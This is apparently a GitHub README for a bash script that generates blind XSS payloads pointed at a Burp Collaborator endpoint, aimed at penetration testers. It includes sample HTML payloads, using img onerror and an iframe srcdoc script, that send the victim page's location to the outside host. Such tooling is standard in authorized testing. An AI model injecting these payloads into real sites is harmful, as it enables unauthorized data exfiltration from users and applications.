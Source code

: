 # Blind XSS Payload Generator

A simple, customizable Blind XSS payload generator tool for penetration testers and security researchers. This script takes user input for a Burp Collaborator or similar endpoint URL, replaces placeholders in pre-defined Blind XSS payloads, and outputs a ready-to-use list of payloads that can be used in security assessments.

# Features
- Pre-defined Blind XSS payloads for various scenarios
- Easy customization of payloads by specifying your endpoint URL
- Generates payloads that trigger callbacks with valuable information from vulnerable web applications

# Requirements
- Bash (Unix-based OS recommended)
- curl (for testing and verification, if needed)

# Usage
1. Clone the repository:

```
git clone https://github.com/yourusername/blind_xss_payload_generator.git
cd blind-xss-payload-generator
```

2. Run the script:

```
./generate_payloads.sh
```

The script will ask for:

- A Burp Collaborator or similar URL
- A filename for saving the generated payloads

3. Inspect the output: The output file (e.g., blind_xss_payloads.txt) will contain customized Blind XSS payloads using your specified endpoint URL.

# Example

```
$ ./generate_payloads.sh
Enter your Burp Collaborator URL: https://example.burpcollaborator.net
Enter the output filename (e.g., blind_xss_payloads.txt): my_blind_xss_payloads.txt
```

Payloads generated and saved to my_blind_xss_payloads.txt
Sample Payloads

Some examples of the generated payloads:

```html
<img src="https://example.burpcollaborator.net/image">
<img src="https://example.burpcollaborator.net/image-only" onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>
<iframe srcdoc='<script>window.location="https://example.burpcollaborator.net/iframe-srcdoc?"+btoa(parent.document.location)</script>'></iframe>
```

Notes
Testing in Legal Environments: This tool should only be used in environments where you have permission to perform security assessments. Unauthorized testing may violate laws and ethical guidelines.
Customization: The payloads can be modified directly in the script or via del.txt and blind_xss_payloads.txt files for even more variations.
License
This project is licensed under the MIT License.


